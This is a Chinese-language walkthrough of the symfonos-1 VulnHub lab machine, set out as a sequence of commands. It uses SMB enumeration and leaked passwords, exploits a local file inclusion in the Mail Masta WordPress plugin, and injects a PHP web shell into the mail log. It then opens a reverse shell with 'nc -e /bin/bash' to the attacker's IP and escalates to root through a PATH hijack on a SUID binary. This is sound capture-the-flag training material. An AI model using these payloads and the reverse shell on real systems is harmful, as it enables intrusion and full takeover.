# symfonos-1

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-1（IP：192.168.253.143）

下载：https://www.vulnhub.com/entry/symfonos-1,322/

## Let's go

```
nmap -A 192.168.253.143
```



```
enum4linux 192.168.253.143
```





> **扫描发现可以匿名登录，并得到 'helios'**

```
smbclient //192.168.253.143/anonymous
```



```
cat attention.txt
```



> **查看获取到三个密码  'epidioko'  'qwerty'  'baseball'**

```
#发现helios共享可以使用密码'qwerty'登录
smbclient //192.168.253.143/helios -U=helios
```



```
cat todo.txt
```


```
#发现是WordPress网站
http://192.168.253.143/h3l105/
```



> **将主机添加到/etc/hosts**





```
wpscan --url http://symfonos.local/h3l105/
```



```
https://www.exploit-db.com/exploits/40290
```



```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```



> **将一句话<?php system($_GET['cmd']); ?>写入SMTP日志，**

```
telnet 192.168.253.143 25
mail from:hello
rcpt to:helios
data
<?php system($_GET['cmd']); ?>
.
```



```
http://symfonos.local/h3l105/wp-content/plugins/mailmasta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc 192.168.253.136 4444 -e /bin/bash
nc -lp 4444
python -c 'import pty; pty.spawn("/bin/bash")'
```



```
find / -perm -u=s -type f 2>/dev/null
```



```
strings /opt/statuscheck
```



> **这里使用环境变量提权**

```
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
```



```
/opt/statuscheck
cd /root
cat proof.txt
```

